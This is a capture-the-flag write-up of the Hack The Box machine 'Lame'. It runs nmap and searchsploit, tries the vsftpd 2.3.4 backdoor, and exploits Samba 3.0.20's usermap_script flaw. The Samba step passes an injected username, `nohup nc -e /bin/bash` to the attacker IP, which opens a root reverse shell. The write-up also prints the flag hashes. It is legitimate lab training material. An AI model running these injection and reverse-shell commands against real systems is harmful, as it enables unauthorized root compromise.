 ```yaml
---
layout: post
title: Lame
tags: [OSCP, writeup, Linux, injection, SMB]
description: "Lame write-up"
---
```


![Lame logo](/assets/imgs/lame/lame.png)

### This is an easy linux box

## Tool used

------

- find
- nc
- nmap
- python
- searchsploit
- smbclient

## Reconnaissance

------

### Nmap

```
nmap -sV -sC -oA lame 10.10.10.3 -Pn -v

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h06m30s, deviation: 2h49m44s, median: 6m28s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-07-15T06:12:45-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

Here's what nmap teaches us :

- port 21 (FTP) vsftpd 2.3.4 : anonymous login
- port 22 (SSH) OpenSSH 4.7p1
- port 139 (NETBIOS)  Samba smbd 3.X - 4.X
- port 445 (SMB) Samba smbd 3.0.20-Debian

We have some version, let's check for known exploits.

### Searchsploit

#### FTP

![searchsploit FTP](/assets/imgs/lame/searchsploit_vsftpd.PNG)

I download the metasploit exploit like so :

```bash
searchsploit -m unix/remote/17491.rb
```

Looking at the exploit, we see that the backdoor payload is initiated in response to a :) character  combination in the username which represents a smiley face. The code  sets up a bind shell listener on port 6200.

Let's try it manually :

We triggered the backdoor, by using a smiley after the username.

```
ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:liodeus): test:)   
331 Please specify the password.
Password:
```

Then we connect to the bind shell on port 6200.

```
nc 10.10.10.3 6200
id
whoami
```

But we got nothing, too bad, the FTP server must be patch !

#### SSH

![searchsploit OPENSSH](/assets/imgs/lame/searchsploit_openssh.PNG)

As we can see, there is some exploit to do some "Username Enumeration". It might be interresting, but at the moment I don't really need a username. So if don't find anything with SMB, I'll get back to that exploit.

#### SMB

![searchsploit SMB](/assets/imgs/lame/searchsploit_samba3.0.20.PNG)

I see a "Command Execution", let's look at it.

## Exploit

------

Download the metasploit exploit :

```bash
searchsploit -m unix/remote/16320.rb
```

The interresting part is here :

```ruby
username = "/=`nohup " + payload.encoded + "`"
```

 By specifying a username containing shell meta characters, attackers can execute arbitrary commands.([https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script))

I want a reverse shell so my payload should look something like this :

```ruby
./=`nohup nc -e /bin/bash 10.10.14.4 1234`
```

Let's try it !

Open a nc listener :

```ruby
nc -lvp 1234
```

Then triggered the exploit.

```bash
smbclient //10.10.10.3/tmp --option='client min protocol=NT1'

Enter WORKGROUP\liodeus's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> logon "./=`nohup nc -e /bin/bash 10.10.14.4 1234`"
Password:
```

We have a connection back to our listener and we are "root", nice !

```bash
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.3: inverse host lookup failed: Unknown host
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.3] 38077
id
uid=0(root) gid=0(root)
whoami
root
```

### Shell upgrade

Now that we have a shell, let's upgrade it :

```bash
which python
/usr/bin/python
python -c "import pty;pty.spawn('/bin/bash')"
root@lame:/#
```

And now go read the flags !

## Flags

------

### User.txt

```bash
find /home -name "user.txt"
/home/makis/user.txt
cat /home/makis/user.txt
69454a937d94f5f0225ea00acd2e84c5
```

### Root.txt

```bash
find /root -name "root.txt"
/root/root.txt
cat /root/root.txt
92caac3be140ef409e45721348a4e9df
```